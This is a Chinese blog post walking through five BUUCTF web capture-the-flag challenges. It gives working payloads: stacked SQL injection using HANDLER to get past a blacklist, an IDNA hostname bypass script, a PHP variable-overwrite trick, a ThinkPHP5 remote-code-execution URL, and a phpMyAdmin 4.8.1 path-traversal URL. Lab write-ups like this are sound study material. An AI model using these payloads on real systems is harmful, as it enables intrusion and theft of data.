







<!--yml
category: 未分类
date: 2022-04-26 14:33:31
-->

# BUUCTF__web题解合集（二）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/107528029](https://blog.csdn.net/tm_1024/article/details/107528029)

## 前言

## 题目

### 一、[GYCTF2020]Blacklist

*   打开一个查询框，随便尝试发现过滤规则

    ```
    preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject); 
    ```

*   很是眼熟，确实，和之前做的[[强网杯 2019]随便注](https://blog.csdn.net/TM_1024/article/details/105730558)非常相似，增加了过滤规则。修改表名和set均不可用，所以很直接的想到了`handler`语句。

*   但依旧可以用堆叠注入获取数据库名称、表名、字段。

    ```
     1';show databases#    获取数据库名称

      1';show tables#       获取表名

      1';show columns from FlagHere ;#  或 1';desc FlagHere;#      获取字段名 
    ```

*   接下来用 `handler`语句读取内容。

    ```
     1';handler FlagHere open;handler FlagHere read first# 
    ```

*   直接得到 flag 成功解题。

*   补充`handler`语句相关。

*   mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

*   语法结构：

    ```
    HANDLER tbl_name OPEN [ [AS] alias]

    HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)[ WHERE where_condition ] [LIMIT ... ]

    HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }[ WHERE where_condition ] [LIMIT ... ]

    HANDLER tbl_name READ { FIRST | NEXT }[ WHERE where_condition ] [LIMIT ... ]

    HANDLER tbl_name CLOSE 
    ```

*   如：通过handler语句查询users表的内容

    ```
    handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
    handler yunensec read first; #读取指定表/句柄的首行数据
    handler yunensec read next; #读取指定表/句柄的下一行数据
    handler yunensec read next; #读取指定表/句柄的下一行数据
    ...
    handler yunensec close; #关闭句柄 
    ```

*   本题无新知识点，不过记起了之前写的关于这个的内容。

### 二、[SUCTF 2019]Pythonginx

```
 1 @app.route('/getUrl', methods=['GET', 'POST'])
 2 def getUrl():
 3     url = request.args.get("url")
 4     host = parse.urlparse(url).hostname
 5     
 6     if host == 'suctf.cc':
 7         return "我扌 your problem? 111"
 8     parts = list(urlsplit(url))
 9     
10     
11     
12     
13     host = parts[1]
14     if host == 'suctf.cc':
15         return "我扌 your problem? 222 " + host
16     newhost = []
17     for h in host.split('.'):
18         
19         newhost.append(h.encode('idna').decode('utf-8'))
20         
21     parts[1] = '.'.join(newhost)
22     
23 
24     
25     finalUrl = urlunsplit(parts).split(' ')[0]
26     host = parse.urlparse(finalUrl).hostname
27     if host == 'suctf.cc':
28         return urllib.request.urlopen(finalUrl).read()
29     else:
30         return "我扌 your problem? 333" 
```

*   并且提示`nginx`
    

*   分析这段源码，发现突破点

    ```
    return urllib.request.urlopen(finalUrl).read() 
    ```

*   往前分析 需满足 `host == 'suctf.cc'` 继续往前找`host`是怎么来的，发现它经过了很多次处理，再从头看host的处理过程。

*   首先传入时不能为 suctf.cc ，不然直接死在前两个if中，需要经过处理在第三个if中为 suctf.cc。

*   而处理的方法就是进行 `idna` 编码后，再 `utf-8` 解码。 然后再依次经历了`urlunsplit` 、`urlparse`函数处理。

*   那突破的方法有两个。

*   第一个就是利用在 `idna` 编码后，再 `utf-8` 解码时，创造一个`suctf.cc`。

*   但我们的目的是解题，满足 suctf.cc 后进一步的目的就是找 flag ，加上题目告知我们是`nginx`。

*   补充信息，也是解题关键，也就是flag可能存在的地方。讲真，这我还真不知道。

> Nginx 重要文件目录
> 配置文件存放目录：/etc/nginx
> 主要配置文件：/etc/nginx/conf/nginx.conf
> 管理脚本：/usr/lib64/systemd/system/nginx.service
> 模块：/usr/lisb64/nginx/modules
> 应用程序：/usr/sbin/nginx
> 程序默认存放位置：/usr/share/nginx/html
> 日志默认存放位置：/var/log/nginx

*   所以我看到的wp都直接写读配置文件`/usr/local/nginx/conf/nginx.conf`但上面的信息说配置文件 /etc/nginx/conf/nginx.conf。
*   我百度的结果有说这是安装Nginx默认的配置文件路径？？？慢慢积累吧
*   再看绕过前两个`if`的方法。
    *   第一种方法就这利用 `idna` 编码后，再 `utf-8` 解码时与原字符的差异。比如说，[这篇文章](https://www.cnblogs.com/cimuhuashuimu/p/11490431.html)
        
    *   而且可以用脚本抛跑出所需要的字符。

```
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass

def getUrl(url):
    url=url
    host=parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts=list(urlsplit(url))
    host=parts[1]
    if host == 'suctf.cc':
        return False
    newhost=[]
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1]='.'.join(newhost)
    finalUrl=urlunsplit(parts).split(' ')[0]
    host=parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False

if __name__=='__main__':
    get_unicode() 
```

### 三、[BJDCTF2020]Mark loves cat

*   打开一个比较复杂的前端页面，无突破点。习惯性看源代码无提示。

*   可能是源码泄露，常规扫目录无结果,最后确实是源码泄露，`.git源码泄漏`。可以访问 `.git/index` 或 `.git/config` ,添加字典。

*   获取源码的方式可以用 [GitHack脚本](https://github.com/BugScanTeam/GitHack) ，使用方法[如下](https://blog.csdn.net/u012486730/article/details/82019513)。

*   获取源码，得到`index.php`和`flag.php`。先看到flag.php。简单的一句话。读取了一个`/flag`文件赋值给`flag`变量

    ```
    $flag = file_get_contents('/flag'); 
    ```

*   再看index.php 。很长，直接搜索php，定位到最后。

```
<?php
include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag; 
```

*   看到最后的 echo $flag 还以为也是像之前一样绕过前面的 if 来执行它。但其实虽然可以绕过前面3个if，但却发现输出的并非flag。原因是由`$$`引起的变量被覆盖。

*   当我们 POST 传入 flag=abc 时，经过第一个 foreach ，$x=flag， $y=abc。再经过 `$$x = $y` 时，结果就是 `$flag=abc`。输出的 $flag也就不是 flag.php 中读取文件的内容，页面回显abc，不可行。总结就是POST传入的回显会是传入的变量的值。
    

*   再看GET传入 flag=abc 时。同样经过第二个 foreach ，$x=flag， $y=abc。再经过 `$$x = $$y` ,结果就是 `$flag= $abc` ,但 $abc 没有定义，所以输出为空。不可行。总结就是GET传入的回显会是传入的变量的值，变为的变量的值。
    

*   所以，我们想到让GET传入的值为flag，变为变量后就是$flag ,只要能回显就能读取 flag。

*   继续看 有回显的地方，第一个 if 那，不可行，传入的变量的值不能为flag。

*   再看第二个 if 那，限制不能GET或POST传入变量flag。但没用限制传入的变量的值。所以只需要GET传入`yds=flag`。结合刚刚说的GET传入的处理过程。输出的 $yds 将变成输出 $flag。可行。

    ```
    ?yds=flag 
    ```



### 四、[BJDCTF 2nd]old-hack

*   打开界面很炫，刚开始没注意到页面的提示`think PHP` ，反而去找源码去了。啊啊啊，太菜了。

*   `think PHP5` 版本有一个影响较大的漏洞，直接百度 thinkphp5 漏洞就可以找到，直接嫖一个payload就行。[比如这个](https://www.cnblogs.com/backlion/p/10106676.html)

    ```
    url/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
    ```

*   访问就能打开一个报错页面。得到有用信息，比如说thinkphp版本为5.0.23
    

*   再直接百度`thinkphp5.0.23` 就能找到可以远程代码执行漏洞的[利用方法](https://www.jianshu.com/p/ae48507135f3)。

*   直接套用就能得到flag。
    

*   实话说，知道这个知识点开始也没反应过来。。。总结知识点就是关于thinkphp5的漏洞利用。

### 五、[GWCTF 2019]我有一个数据库

*   打开什么都没有，就可能是源码泄露或者啥的，扫一下可能扫到`robots.txt`、`phpinfo.php`、`phpmyadmin`。论一本好字典的重要性。边刷题边积累常见目录或文件，补充字典。

*   访问 `phpmyadmin` ，直接没有登录验证就进去了，也就是说可以完全操控数据库。

*   可以看到`phpmyadmin`版本为`4.8.1` 直接搜索就能知道该版本的[文件包含漏洞](https://www.jianshu.com/p/0d75017c154f)

*   所以，修改payload，访问得flag。

    ```
    /phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../flag 
    ```

*   知道这个漏洞就很容易做出来，万一不知道，如果说靠写入一句话木马getshell好像也行。但我找不到文件保存路径。。。。

*   找到[一篇文章](https://www.cnblogs.com/leixiao-/p/10265150.html)写入文件并查询目录，依旧没复现成功 。。。

## 最后

*   加油，加油，加油。
*   离大佬的距离永远是那么遥远。
*   附上[题目链接](https://buuoj.cn/challenges)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)